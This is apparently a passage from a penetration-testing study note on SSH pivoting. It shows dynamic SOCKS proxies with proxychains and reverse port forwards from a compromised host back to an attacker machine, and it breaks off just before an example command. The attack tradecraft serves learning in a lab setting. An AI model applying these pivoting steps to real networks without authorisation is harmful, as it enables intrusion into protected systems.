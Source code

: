 - Proxies are made using the -D switch, for example: -D 1337. This will open up port 1337 on your attacking box as a proxy to send data through into the protected network. This is useful when combined with a tool such as proxychains. An example of this command would be:
ssh -D 1337 user@172.16.0.5 -fN
This again uses the -fN switches to background the shell. The choice of port 1337 is completely arbitrary -- all that matters is that the port is available and correctly set up in your proxychains (or equivalent) configuration file. Having this proxy set up would allow us to route all of our traffic through into the target network.

## Reverse Connections

Reverse connections are very possible with the SSH client (and indeed may be preferable if you have a shell on the compromised server, but not SSH access). They are, however, riskier as you inherently must access your attacking machine from the target -- be it by using credentials, or preferably a key based system. Before we can make a reverse connection safely, there are a few steps we need to take:

First, generate a new set of SSH keys and store them somewhere safe (ssh-keygen):

![image](https://user-images.githubusercontent.com/89842187/131923248-ffda769d-19ce-438e-8ed5-8222266499ef.png)

This will create two new files: a private key, and a public key.


Copy the contents of the public key (the file ending with .pub), then edit the ~/.ssh/authorized_keys file on your own attacking machine. You may need to create the ~/.ssh directory and authorized_keys file first.
On a new line, type the following line, then paste in the public key:
command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-x11-forwarding,no-pty
This makes sure that the key can only be used for port forwarding, disallowing the ability to gain a shell on your attacking machine.

The final entry in the authorized_keys file should look something like this:

![image](https://user-images.githubusercontent.com/89842187/131923269-eb023537-ff00-49ef-b229-6b69a19512d2.png)

If the status command indicates that the server is not running then you can start the ssh service with:
```
sudo systemctl start ssh
```
The only thing left is to do the unthinkable: transfer the private key to the target box. This is usually an absolute no-no, which is why we generated a throwaway set of SSH keys to be discarded as soon as the engagement is over.

With the key transferred, we can then connect back with a reverse port forward using the following command:

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN

```

To put that into the context of our fictitious IPs: 172.16.0.10 and 172.16.0.5, if we have a shell on 172.16.0.5 and want to give our attacking box (172.16.0.20) access to the webserver on 172.16.0.10, we could use this command on the 172.16.0.5 machine:
